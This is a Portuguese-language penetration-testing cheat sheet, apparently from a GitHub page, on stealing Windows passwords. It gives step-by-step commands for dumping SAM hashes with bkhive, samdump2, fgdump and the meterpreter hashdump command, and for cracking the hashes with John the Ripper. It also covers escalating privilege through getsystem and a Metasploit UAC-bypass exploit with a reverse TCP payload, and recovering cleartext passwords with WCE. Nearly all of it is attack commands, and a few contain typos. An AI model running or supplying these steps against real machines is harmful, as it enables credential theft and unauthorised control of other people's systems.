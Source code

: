 # Senha no Windows

## Windows XP, Windows Server 2003 ou inferior

### Capturando hash

Arquivo contendo os hashs de usuários:
C:/windows/system32/config/SAM
*Esse arquivo é criptografado, porém a chave fica dentro do arquivo system na mesma pasta.*
*Também não é possível efetuar o download desses arquivos via meterpreter.*

Contudo no diretório **C:/windows/repair** há um backup dos arquivos **SAM** e **system**, sendo possível efetuar o download via meterpreter.

Para descriptografar o arquivo SAM:  
bkhive system bootkey.txt ==> Será gerado o bootkey  
samdump2 sam bootkey.txt ==> Será gerado os hashs de senhas

Também é possível pegar os hashs através do comando do meterpreter:  
materpreter > hashdump

Ou através do fgdump que no Kali Linux fica no diretório /usr/share/windows-binaries/fgdump/fgdump.exe:  
meterpreter > upload /usr/share/windows-binaries/fgdump/fgdump.exe c:\  
C:\> fgdump.exe ==> Será gerado dois arquivos, **127.0.0.1.cachedump** e **127.0.0.1.pwdump**.  
C:\> type 127.0.0.1.cachedump ==> Para visualizar o arquivo que normalmente traz usuários de rede.  
C:\> typr 127.0.0.1.pwdump ==> Para visualizar o arquivo.  

### Quebrando hash

Quebrando o hash:  
```bash
john hash.txt --format=lm --show
```

Quebrando o hash com wordlist personalizada:  
```bash
john hash.txt --format=lm --wordlist=wordlist.txt --show
```

*Wordlist padrão: /usr/share/john/password.lst*  

Outra opção é efetuar a quebra através do Ophcrack.  
Baixe antes as tables do Ophcrack em **http://ophcrack.sourceforge.net/**.

## Windows Vista ou superior

No Windows 7 em muitos casos não é possível executar o hashdump pelo fato de não estar com um usuário do sistema. Porém o meterpreter tem uma função de escalar privilégio através do seguinte comando:  
meterpreter > getsystem

Caso o comando getsystem não tenha efeito, podemos utilizar algum exploit para dar bypass em UAC:  
msf > search bypassuac  
msf > use exploit/windows/local/bypassuac  
msf exploit(bypassuac) > sessions -l ==> Ou seja, é necessário ter uma sessão ativa em background. Veja o ID da sessão que usaremos no exploit.  
msf exploit(bypassuac) > set SESSION 1  
msf exploit(bypassuac) > set payload windows/meterpreter/reverse_tcp  
msf exploit(bypassuac) > set LHOST 192.168.0.100  
msf exploit(bypassuac) > set LPORT 443  
msf exploit(bypassuac) > exploit  
msf exploit(bypassuac) > session -i 2  
meterpreter > getuid ==> Para ver o usuário.  
meterpreter > getsystem ==> Para escalar o privilégio.  
meterpreter > hashdump  

Há uma outra opção de pegar o hashdump caso a opção acima apresente erro:  
msf > use post/windows/gather/smart_hashdump  
msf post(smart_hashdump) > set SESSION 2  
msf post(smart_hashdump) > run

### Quebrando hash

Quebrando o hash:  
```bash
john hash.txt --format=nt --show
```

Quebrando o hash com wordlist personalizada:  
```bash
john hash.txt --format=nt --wordlist=wordlist.txt --show
```

*Wordlist padrão: /usr/share/john/password.lst*

Outra opção é efetuar a quebra através do Ophcrack.  
Baixe antes as tables do Ophcrack em **http://ophcrack.sourceforge.net/**.


## Sequestro de senha através de WCE

Caminho padrão do WCE no Kali Linux:  
/usr/share/wce/  

Upload do WCE:  
meterpreter > upload /usr/share/wce/wce-universal.exe c:/  

Execução do WCE:  
meterpreter > shell  
C:\>wce-universal.exe  
C:\>wce-universal.exe -w ==> Irá trazer a senha em texto claro.  